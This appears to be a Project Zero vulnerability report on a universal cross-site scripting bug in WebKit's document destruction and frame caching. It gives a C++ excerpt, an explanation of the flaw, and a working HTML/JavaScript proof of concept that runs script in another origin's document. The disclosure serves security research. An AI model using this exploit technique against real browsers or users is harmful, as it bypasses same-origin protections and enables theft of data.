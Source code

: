 # UXSS via Document::prepareForDestruction and CachedFrame

### Reported by lokihardt@google.com, Mar 3 2017

Here's a snippet of Document::prepareForDestruction

```cpp
void Document::prepareForDestruction()
{
    if (m_hasPreparedForDestruction)
        return;
    ...
    detachFromFrame();

    m_hasPreparedForDestruction = true;
}
```

`Document::prepareForDestruction` is called on the assumption that the document will not be used again with its frame. However, if a frame caching is made in `Document::prepareForDestruction`, the document's frame will be stored in a CachedFrame object that will reattach the frame at some point, and thereafter, the document's frame will be never detached due to `m_hasPreparedForDestruction`.

PoC:

```html
<body>
Click anywhere.
<script>
function createURL(data, type = 'text/html') {
    return URL.createObjectURL(new Blob([data], {type: type}));
}

function waitFor(check, cb) {
    let it = setInterval(() => {
        if (check()) {
            clearInterval(it);
            cb();
        }
    }, 10);
}

window.onclick = () => {
    window.onclick = null;

    w = open(createURL(''), '', 'width=500, height=500');
    w.onload = () => {
        setTimeout(() => {
            let f = w.document.body.appendChild(document.createElement('iframe'));
            f.contentWindow.onunload = () => {
                f.contentWindow.onunload = null;

                w.__defineGetter__('navigator', () => new Object());

                let a = w.document.createElement('a');
                a.href = 'about:blank';
                a.click();

                setTimeout(() => {
                    w.history.back();
                    setTimeout(() => {
                        let d = w.document;
                        w.location = 'javascript:' + encodeURI(`"<script>location = 'https://abc.xyz/';</scrip` + `t>"`);

                        let it = setInterval(() => {
                            try {
                                w.xxxx;
                            } catch (e) {
                                clearInterval(it);

                                let a = d.createElement('a');
                                a.href = 'javascript:alert(location);';
                                a.click();
                            }
                        }, 10);
                    }, 100);
                }, 100);
            };

            w.location = 'javascript:""';
        }, 0);
    };

}

</script>
</body>
```

Link: https://bugs.chromium.org/p/project-zero/issues/detail?id=1163
